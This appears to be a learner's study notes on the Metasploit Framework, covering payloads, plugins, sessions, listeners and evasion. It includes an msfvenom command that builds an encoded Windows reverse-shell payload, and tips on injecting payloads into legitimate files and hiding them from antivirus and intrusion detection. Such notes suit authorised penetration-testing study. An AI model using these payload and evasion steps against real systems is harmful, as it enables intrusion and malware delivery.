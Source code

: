 # Metasploit Framework

We know the basics of msfconsole so I will just be going over the new concepts.

# Payloads

Once we select a module we can alos select a paylod. Msf will be default use the best one but you can chnage with set payload \<no>. Show payloads

# Encoding

Msfvenom can encode a payloads.

```
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f perl -e x86/shikata_ga_nai
```

-a = Archecture to use

-f  = Format

-e = Encoder to use

-i = Iterations to encode

Can also encode within msfconsole

MSF - VirusTotal can be used to check if a payload will be recognised as a virus

# Database

Msfconsole can be used to store hosts, passwords, services in a databse. No writing this up as I have my own note taking methods and this db will be largely redundant for me.

# Plugins

Can use third party plugins in msf. load \<plugin>

[Here](https://github.com/darkoperator/Metasploit-Plugins) are some user ones a good one is pentest. Take a look and get familar with some of the more popular ones.

# Session

Can have multiple sessions at once and you can attach a payload to a session. For example if you have used a webexploit to gain shell access you can then attach a priv esc payload to that shell. Neat!

Use the set session \<no> command

# Adding modules

Add modules from serachsploit to /usr/share/metasploit-framework/modules/exploits

And use reload\_all to refresh cache

# Shells

Msf can create nc listeners for shells. Use multi/handler

Once connected can use local exploit suggester module for recon. Have to set session of course.

# Evasion techniques

Msfconsole can use AES encryption to bypass IDS/IPS

msfvenom -k -x flag can be used to inject the payload into a legitimate file and if we encode on top of that it becomes much harder to fingerprint.

Can also archive payloads as rars with a password to bypasss detection but this will be flagged and potentially manually checked by an admin.
